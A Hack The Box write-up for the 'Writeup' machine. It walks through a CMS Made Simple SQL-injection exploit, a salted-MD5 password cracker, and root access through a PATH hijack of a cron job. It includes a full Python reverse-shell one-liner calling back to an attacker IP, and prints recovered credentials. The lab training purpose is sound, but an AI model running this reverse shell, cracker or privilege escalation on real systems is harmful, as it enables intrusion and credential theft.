# Writeup

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/192"></a>
  <br>
</h1>

<h4 align="center"> Author: jkr</h4>

***

__Machine IP__: 10.10.10.138

__DATE__ : 9/06/2019

__START TIME__: 2:17 PM


***

## NMAP



We can see that `robots.txt` is available so let's see what we can find in it.



`robots.txt` gave us the `/writeup/` URL and visiting there we get the directory with writeups to old machines.

***

## HTTP

Let's run `gobuster` and see if we can find anything else but `gobuster` didn't worked so I tried `dirsearch` that also didn't worked. I was confused why they weren't working. Then after visiting the website page I realized why.



So I decided to crawl the website with burp's spider.

Just intercept the requests



and then send it to spider. In the `site-map` you'll find all the newly discovered content.



As we can see that other than `robots.txt` there's a `/writeup/` which we already found, meaning there's nothing else. This could mean we need to focus on the `/writeups/` page.



This is what the page looked like and it had few writeups for old retired machines.

After spending some time looking around I noticed one thing. There's `CMSSESSID` in those `/writeup/` links.



This mean they are using `CMS` in the back so I decided to search for `CMS` exploit and found this [exploit](https://www.exploit-db.com/exploits/46635)

***

## Pwn User
I ran this exploit

```bash
$ python2 exploit.py -u http://10.10.10.138/writeup
```



```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

Then I separated the `crack password` function and changed it a bit to crack the password.

```python
import hashlib

PASSWORD = "62def4866937f08cc13bab43bb14e6f7"
WORDLIST = "rockyou.lst"
SALT = "5a599ef579066807"


def crack_password():
    output = ""
    with open(WORDLIST) as f:
        for line in f.readlines():
            line = line.replace("\n", "")
            if hashlib.md5(str(SALT) + line).hexdigest() == PASSWORD:
                output += "\n[+] Password cracked: " + line
                break
    return output

if __name__ == "__main__":
    print(crack_password())
```

and it cracked the password.



So now we have the credentials `jkr: raykayjay9`

I was able to login into `jkr` account via SSH.



Then I got the user



***

## pwn root

I downloaded the enumeration script and ran it but couldn't find anything interesting. I tried looking around into different things like `sudo -l` or any cronjobs but I couldn't find anything.

After reading some comments on the forum discussion I found out that I need to keep an eye on the process running. So I downloaded the [pspy](https://github.com/DominicBreuker/pspy) and ran it.

Most of the time I was getting the SSH login.



But then after sometime I got something different










Now we can see that there's something running in background called `run-parts`.
I found out that it's a cronjob associated with all users.



Since this binary doesn't have the full path maybe we can use this for our privilege escalation.

Here's the interesting part. A cronjob is triggering

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

and we can see that in this command the `run-parts` is without the complete path. And right before that there's a PATH variable defined.

So basically while running the `run-parts` system will search it in the given PATHS. We can take advantage of this by simply making a executable file with a reverse shell in it. If it work it will trigger a Root reverse shell.

I checked and there wasn't any `nc` on the system so I used the python's reverse shell.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.107",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
We have write permission in `/usr/local/sbin` and `/usr/local/bin` so we can make file in any of those.

* `cd /usr/local/sbin`
* `nano run-parts`
* paste the reverse shell

  

* `chmod +x run-parts`
* setup your listener on your system and wait you'll get the root shell.



***

I really enjoyed this machine even though the SQLi part on free network was really a pain but I am happy that I was able to complete this.

Thanks to [@jkr](https://twitter.com/ATeamJKR) for making this machine.

***

Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
